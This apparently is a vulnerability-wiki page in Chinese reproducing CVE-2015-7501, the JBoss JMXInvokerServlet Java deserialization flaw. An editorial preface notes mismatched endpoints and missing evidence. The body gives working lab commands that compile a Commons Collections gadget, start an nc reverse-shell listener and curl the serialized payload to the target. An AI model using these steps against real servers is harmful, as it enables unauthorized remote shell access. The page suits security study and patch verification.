


# （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 证据范围：与390同复制错误：开始查看JMXInvokerServlet，真正发送却/invoker/readonly，无法分辨是哪个漏洞成功。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 最终curl端点错配主CVE，应隔离修正而非直接合并判已复现
- 列大量RedHat受影响产品不代表都暴露此HTTP入口，需分组件/产品修补条件
- Win7仅安装Java不足搭建JBoss，缺准确服务器/依赖版本
- 端点显示/下载不等于存在可用gadget漏洞
- 无修复与来源公告，图片尾巴残渣

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

二、漏洞影响
------------

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS
6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV)
6.x版本和5.x版本；Enterprise Application Platform
6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW)
6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA
Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat
OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.151:8080/invoker/JMXInvokerServlet>
返回如图，说明接口开发，存在反序列化漏洞

JBossJMXInvokerServlet反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

JBossJMXInvokerServlet反序列化漏洞/media/rId27.png)

打开nc界面，发现shell已经弹回来了

JBossJMXInvokerServlet反序列化漏洞/media/rId28.png)
